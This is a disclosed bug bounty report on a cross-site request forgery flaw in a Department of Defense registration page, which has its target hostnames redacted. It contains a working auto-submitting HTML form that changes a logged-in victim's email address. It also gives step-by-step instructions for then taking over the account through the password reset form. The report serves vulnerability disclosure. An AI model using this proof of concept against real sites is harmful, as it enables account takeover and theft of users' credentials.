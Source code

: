 # Account Takeover and Information update due to cross site request forgery via POST █████████/registration/my-account.cfm

## Report Details
- **Report ID**: 1626356
- **URL**: https://hackerone.com/reports/1626356
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-07-05T14:34:27.861Z
- **Disclosed**: 2022-10-14T13:28:47.202Z

## Reporter
- **Username**: snifyak
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary:
Hello Team,

While researching on https://████/ , I found a cross site request forgery attack which leads to account's information update and that further leads to account takeover via password reset functionality.

## Steps To Reproduce:
Check This video for understanding the attack scenario.
████████

### Scenarios & Steps:

Suppose there is a user which is logged in to their account.
Now attacker sent him a malicious link which will lead to account information update.

Steps for above scenario are:

1. Victim must be logged in to ███/registration/index.cfm .
2. Attacker sent him a malicious link.
    For this attacker need to step a server which contain below code:

    ```
    <html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="█████/registration/my-account.cfm" method="POST">
      <input type="hidden" name="cmdSubmit" value="Update&#32;My&#32;Account" />
      <input type="hidden" name="txtFirstname" value="fname" />
      <input type="hidden" name="txtMI" value="hi" />
      <input type="hidden" name="txtLastname" value="lnames" />
      <input type="hidden" name="txtAddress" value="hello" />
      <input type="hidden" name="optAddress" value="temporary" />
      <input type="hidden" name="txtPhone" value="89" />

        <!-- here we enter  a temporary email address via online tools like tempmail  -->
      <input type="hidden" name="txtEmail1" value="voyan61996&#64;jrvps&#46;com" />
      <input type="hidden" name="txtEmail2" value="voyan61996&#64;jrvps&#46;com" />
      <input type="hidden" name="txtPassword1" value="" />
      <input type="hidden" name="txtPassword2" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
    ```

Step 3:
Now victim will click on the link sent by the attacker.
After clicking the link; information is updated on the victims account and the email is also updated which will further lead to account takeover.

Now Attacker side:

Step 1:
Visit ████/

Step 2:
In Forgot your password Form :
Enter the victim username. And click on generate a new password.

Step 3:
Check the email which is entered in the csrf exploit. Here you find the password of that user.

Step 4:
Visit ███/
Enter the username and password. And now you are successfully takeover the victim account.

## Problems
1. There is no Anti-CSRF Token.
2. Sending password to an unverified account which leads to account takeover.

## Supporting Material/References:

  * █████

## Impact

Attacker is able to takeover any account and change the information of any account via csrf.

## Attachments
No attachments
